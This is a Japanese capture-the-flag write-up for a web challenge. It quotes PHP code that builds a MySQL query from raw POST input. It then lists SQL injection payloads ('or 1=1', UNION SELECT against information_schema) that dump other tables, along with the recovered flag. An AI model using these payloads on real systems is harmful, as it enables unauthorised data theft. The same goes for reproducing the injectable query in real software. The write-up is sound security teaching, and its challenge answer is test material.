





# User list (400pt 6solves)

とあるサイトで流出したパスワードをゲットしたので、リストを公開しています  

(url)

## 配布ファイル

[distfiles](../distfiles)

## ヒント

パスワードのテーブルにはflagは無いようです。  
他のテーブルを参照する方法はないでしょうか？

アクセスすると以下のようなかんじ



burpで通信を覗いてみると、選択したユーザ名をPOSTしてる。

```txt
POST / HTTP/1.1
 :
user=admin
```

> burpがない場合はブラウザの開発者ツールでも通信内容は見れる。

ソースコードを見てみる。

```php
<?php
ini_set('mysqlnd.net_read_timeout', 5);
try {
    $db = new PDO('mysql:host=' . $_ENV["DB"] . ';dbname=users', 'y0d3n', 'password');
    $sql = 'SELECT name,pass FROM user WHERE name LIKE  \'' . $_POST["user"] . '\';';
    $stmt = $db->prepare($sql);
    $stmt->execute();
    $result = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (PDOException $e) {
    echo $e->getMessage();
    exit;
} ?>
```

`'SELECT name,pass FROM user WHERE name LIKE  \'' . $_POST["user"] . '\';'`の部分でSQLiできそう。  
`or 1=1`でやってみる。

```txt
POST / HTTP/1.1
  :
user=admin'+or+1=1;--
```

> ここでの`+`は半角スペースを意味します。("urlエンコード 空白"で検索)



> cmdでも再現できます。 `curl -X POST [url] --data "user='or 1=1;--`"

SQLiができて、6人のユーザ名とパスワードが出てきた。しかしflagは見当たらない。  

`union select`してみる。  
ソースコードを読んだところ、DBはmysqlでカラムは2つなのでunionで2つselectするように書く。

```txt
POST / HTTP/1.1
  :
user='union+select+table_name,"a"+from+information_schema.tables;--
```



テーブル一覧がでてきて、下の方に`flag`というテーブルがある。カラムを調べる。

```txt
POST / HTTP/1.1
  :
user='union+select+column_name,"a"+from+information_schema.columns+where+table_name='flag';--
```



`fl4g`というカラムがあるらしい。  
flagをselectする。

```txt
POST / HTTP/1.1
  :
user='union+select+fl4g,"a"+from+flag;--
```



`flag{sql_1nj3ct10n_c4n_l00k_4t_0th3r_t4bl3s}`
